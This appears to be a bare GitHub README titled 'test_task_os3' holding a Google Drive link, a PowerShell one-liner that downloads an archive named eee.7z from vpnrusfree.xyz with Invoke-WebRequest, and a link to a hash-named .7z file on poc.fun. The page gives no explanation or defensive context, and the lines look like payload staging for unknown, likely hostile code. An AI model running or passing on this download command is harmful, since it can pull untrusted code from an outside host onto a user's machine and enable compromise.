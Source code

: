 # test_task_os3
https://drive.google.com/file/d/1Y_njq3-qXPBby3VFZqlMCRKHYgDRhQdr/view?usp=sharing
powershell -command "& { iwr http://vpnrusfree.xyz/eee.7z -OutFile 1.7z }"
http://poc.fun/89356cd30d6b03c5b71e76b783956846.7z
